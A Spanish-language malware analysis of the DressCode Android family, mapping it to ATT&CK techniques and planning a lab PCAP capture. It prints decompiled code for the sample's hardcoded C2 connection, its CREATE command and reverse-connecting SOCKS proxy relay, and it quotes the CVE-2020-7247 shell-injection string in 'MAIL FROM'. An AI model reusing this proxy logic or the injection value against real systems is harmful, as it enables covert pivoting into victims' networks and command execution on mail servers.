


DressCode es una familia de malware para Android que incorpora un proxy usando el protocolo SOCKS. Fue descrito por Trend Micro en su [análisis sobre el impacto potencial de la familia en redes empresariales](https://web.archive.org/web/20211024123823/https://blog.trendmicro.com/trendlabs-security-intelligence/dresscode-potential-impact-enterprises/). La muestra analizada puede convertir el dispositivo infectado en un punto de paso entre el operador y servicios que sean accesibles desde la red de la víctima. Esta capacidad satisface [**T1604 - Proxy Through Victim**](https://attack.mitre.org/techniques/T1604/) y permite construir un flujo para **T1428 - Exploitation of Remote Services**, técnica que [MITRE ATT&CK atribuye expresamente a DressCode](https://attack.mitre.org/software/S0300/). 


En este caso, ocurre algo similar a lo sucedido con S0299-NotCompatible, MITRE no le asocia al malware las 2 técnicas sino que solo una. 

El objetivo es ser capaz de mostrar ambas fases en una misma secuencia comunicativa. Primero, el C2 ordena al dispositivo que abra una conexión de retorno hacia el operador. A continuación, el operador utiliza esa conexión como sesión SOCKS4 y solicita acceso a un servidor SMTP alcanzable desde la víctima. La sesión SMTP incluirá una firma de CVE-2020-7247, ataque el cual se desarrollará más adelante. 

### Análisis estático

| Artefacto                 | Tipo                                | Identificación                                               | SHA-256                                                            |
| ------------------------- | ----------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------ |
| `DressCode-Reference.apk` | APK de Android con dos archivos DEX | Paquete `cache.system.cleaner`; versión 2.5; API objetivo 22 | `cce98e597f8c21c7ab87d5ecf82601153096614a7041bd9ccebc1104fcd08f87` |

El manifiesto registra `com.zz.cc.Service` y el receptor `com.zz.cc.Receiver`; este último puede iniciar el servicio después de `BOOT_COMPLETED`. La actividad principal también contiene una ruta de arranque del mismo servicio. Una vez iniciado, `Service.onStartCommand()` crea una sola instancia de `Client`:

```java
public int onStartCommand(Intent intent, int flags, int startId) {
    if (running.compareAndSet(false, true)) {
        try {
            new Client().start();
        } catch (IOException ignored) {
        }
    }
    return START_STICKY;
}
```

El constructor de `Client` determina el primer extremo remoto. La muestra resuelve el dominio hardcodeado `dfm.nicsm.net`, elige de forma pseudoaleatoria una de las direcciones obtenidas y fija el puerto TCP/9001. 

```java
public Client() {
    try {
        InetAddress[] addresses = InetAddress.getAllByName("dfm.nicsm.net");
        Random random = new Random(System.nanoTime());
        int index = (int) (random.nextDouble() * addresses.length);
        setAddress(new InetSocketAddress(
            addresses[index].getHostAddress(),
            9001
        ));
    } catch (Throwable e) {
        e.printStackTrace();
    }
}
```

La clase `ClientConnector` implementa la conexión mediante un `SocketChannel` no bloqueante. Si el enlace se pierde, vuelve a intentarlo con esperas que comienzan en 500 milisegundos y se duplican hasta un máximo de 30 segundos. Cuando se completa la conexión, `Client.onConnected()` envía inmediatamente `HELLO` seguido de un salto de línea `\n` (`0x0a`). No se aplica TLS ni otra capa de cifrado al canal C2.

De hecho, los mensajes de aplicación no son más que líneas de texto separadas por `\n`. El método `onRead()` reconoce cinco órdenes:

```java
protected void onRead(ByteBuffer buf) throws Exception {
    String message = Charset.defaultCharset().decode(buf).toString();
    String[] commands = message.split("\n");

    for (String command : commands) {
        if (command.equals("HELLO")) {
            send(ByteBuffer.wrap("HELLO\n".getBytes()));
        } else if (command.startsWith("PING")) {
            send(ByteBuffer.wrap("PONG\n".getBytes()));
        } else if (command.startsWith("SLEEP")) {
            Thread.sleep(120000L);
        } else if (command.startsWith("WAIT")) {
            Thread.sleep(2000L);
        } else if (command.startsWith("CREATE")) {
            String[] args = command.split(",");
            if (args.length == 3) {
                createConnection(args[1], Integer.parseInt(args[2]));
            }
        }
    }
    buf.position(buf.limit());
}
```

Las respuestas `HELLO` y `PONG` permiten confirmar el canal. Las órdenes `WAIT` y `SLEEP` bloquean el hilo durante 2 y 120 segundos, respectivamente, sin generar una respuesta. La operación que activa el proxy adopta esta forma:

```text
CREATE,<HOST_OPERADOR>,<PUERTO_OPERADOR>\n
```

La función `createConnection()` abre entonces una segunda conexión TCP saliente desde el dispositivo hacia ese extremo y entrega el socket a `ProxyHandler`:

```java
private void createConnection(String server, int port) throws IOException {
    ProxyHandler proxy = new ProxyHandler(new Socket(server, port));
    proxy.start();
}
```

Esta dirección de la conexión es relevante. DressCode no abre un puerto de escucha SOCKS en el dispositivo: es la víctima quien se conecta al operador. Una vez establecido el enlace, el operador actúa como cliente SOCKS y el objeto `ProxyHandler` de la víctima interpreta sus mensajes como servidor proxy. Esto es en realidad una solución muy eficiente, porque permite no dejar el puerto SOCKS abierto indefinidamente (implementación clásica del protocolo) y así reducir la exposición del malware ante un antivirus y/o EDR (Endpoint Detection and Response).

El primer octeto recibido selecciona SOCKS4 (`0x04`) o SOCKS5 (`0x05`). Después de procesar la autenticación y la petición, `ProxyHandler` ejecuta `CONNECT`, `BIND` o `UDP ASSOCIATE` según la versión y el comando solicitados:

```java
public void processRelay() {
    try {
        byte version = getByteFromClient();
        switch (version) {
            case 4:
                comm = new Socks4Impl(this);
                break;
            case 5:
                comm = new Socks5Impl(this);
                break;
            default:
                return;
        }

        comm.authenticate(version);
        comm.getClientCommand();

        switch (comm.socksCommand) {
            case 1:
                comm.connect();
                relay();
                break;
            case 2:
                comm.bind();
                relay();
                break;
            case 3:
                comm.udp();
                break;
        }
    } catch (Exception ignored) {
    }
}
```

En SOCKS4 no existe una negociación de autenticación separada. `Socks4Impl.getClientCommand()` lee el comando, el puerto de destino en orden de red, cuatro octetos de dirección IPv4 y un identificador de usuario terminado en `NUL`. La implementación admite `CONNECT` y `BIND`:

```java
public void getClientCommand() throws Exception {
    socksCommand = getByte();
    DST_Port[0] = getByte();
    DST_Port[1] = getByte();

    for (int i = 0; i < 4; i++) {
        DST_Addr[i] = getByte();
    }

    while (true) {
        byte value = getByte();
        if (value == 0) {
            break;
        }
        UID += (char) value;
    }

    if (socksCommand < 1 || socksCommand > 2) {
        refuseCommand((byte) 91);
        throw new Exception();
    }
    if (!calculateAddress()) {
        refuseCommand((byte) 92);
        throw new Exception();
    }
}
```

Para `CONNECT`, la víctima abre un tercer socket TCP hacia la dirección y el puerto solicitados. Si la conexión tiene éxito, responde al operador con el código decimal 90 (`0x5a`); en caso contrario utiliza 91 (`0x5b`). A partir de ese momento, `relay()` copia bloques de hasta 4096 bytes en ambos sentidos entre el socket del operador y el socket del servicio remoto. El malware no interpreta SMTP, HTTP ni el protocolo que viaje dentro del túnel, permite plena libertad en cuanto al tráfico.

SOCKS5 introduce una negociación previa. El operador envía la versión, el número de métodos y la lista de métodos admitidos. La muestra solo acepta que esa lista contenga `0x00`, correspondiente a «Sin autenticación», y responde `05 00`. No implementa la autenticación con usuario y contraseña:

```java
public boolean checkAuthentication() throws Exception {
    byte methodsCount = getByte();
    String methods = "";
    for (int i = 0; i < methodsCount; i++) {
        methods += ",-" + ((int) getByte()) + '-';
    }
    return methods.indexOf("-0-") != -1
        || methods.indexOf("-00-") != -1;
}
```

Tras esa respuesta se transmite la petición SOCKS5. La muestra reconoce direcciones IPv4 (`ATYP=0x01`) y nombres de dominio (`ATYP=0x03`), pero rechaza IPv6 (`ATYP=0x04`). `CONNECT`, `BIND` y `UDP ASSOCIATE` son accesibles en esta variante, aunque por decisión propia del estudio se considera utilizar exclusivamente SOCKS4 con `CONNECT`.

### Secuencia comunicativa

El flujo seleccionado contiene cuatro relaciones de red consecutivas:

1. El dispositivo resuelve `dfm.nicsm.net` y abre el canal C2 mediante TCP/9001.
2. El C2 intercambia líneas `HELLO`, `PING` y `PONG`, y envía `CREATE,<HOST>,<PUERTO>`.
3. La víctima abre una conexión TCP hacia el extremo indicado en `CREATE`; sobre ella, el operador envía la negociación SOCKS.
4. Ante una petición `CONNECT`, la víctima crea otra conexión hacia el servicio remoto y retransmite los datos de aplicación en ambos sentidos.

La petición SOCKS4 tiene la siguiente estructura:



Para el escenario elegido, `VER=0x04`, `CMD=0x01` (`CONNECT`), `DST.PORT=0x0019` (TCP/25), `DST.IP` contiene la dirección IPv4 del SMTP emulado y `USERID` está vacío. La respuesta de ocho octetos comienza por `00 5a` cuando se concede la conexión.

El puerto TCP/9001 y el dominio `dfm.nicsm.net` proceden del APK. En cambio, el puerto de la sesión SOCKS es controlado por el C2 mediante `CREATE`. El laboratorio selecciona TCP/9002, distinto del puerto 1080 registrado para SOCKS, con el fin de representar [**T1509 - Non-Standard Port**](https://attack.mitre.org/techniques/T1509/). TCP/9002 no se presenta como un indicador histórico de DressCode: es un valor permitido por el código y elegido para esta captura.

La capacidad de crear el tercer socket y retransmitir bytes demuestra **T1604 - Proxy Through Victim**. DressCode no contiene ningún exploit contra SMTP ni contra otro servicio; **T1428 - Exploitation of Remote Services** se materializa en el laboratorio cuando el operador utiliza el túnel para alcanzar el servidor vulnerable emulado. 

El ataque elegido para transmitirse sobre SOCKS4 es [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247). El fallo permitía que determinados metacaracteres de shell alcanzaran el tratamiento de `MAIL FROM`; el ejemplo inocuo publicado por Qualys utiliza `MAIL FROM:<;sleep 66;>`, tal como recoge el [advisory de oss-security](https://www.openwall.com/lists/oss-security/2020/01/28/3). El emulador se limita a reconocer esa cadena y devolver respuestas SMTP.



### Laboratorio de generación del PCAP

El APK declara `targetSdkVersion=22`. El laboratorio ejecuta la muestra original en Android Emulator sobre Windows y sitúa en Kali WSL el DNS, el C2, el operador SOCKS4 y el servidor SMTP. Los entes de red han sido configurados tal que así:

| Entidad         | Dirección y servicio  | Procedencia                                                                                                                                                                           |
| --------------- | --------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DNS controlado  | `10.230.30.53:53`     | Dirección privada asignada al resolutor del laboratorio.                                                                                                                              |
| C2 de DressCode | `138.201.195.77:9001` | Respuesta A histórica de `dfm.nicsm.net`, observada ocho veces entre abril y julio de 2017 en el [registro de DNS pasivo de Mnemonic](https://api.mnemonic.no/pdns/v3/dfm.nicsm.net). |
| Operador SOCKS4 | `10.230.30.20:9002`   | Dirección y puerto privados elegidos para materializar la conexión inversa ordenada mediante `CREATE`. No son IOC.                                                                    |
| Servidor SMTP   | `10.230.30.25:25`     | Objetivo privado controlado al que el operador solicita acceso mediante `CONNECT`. No es un IOC.                                                                                      |


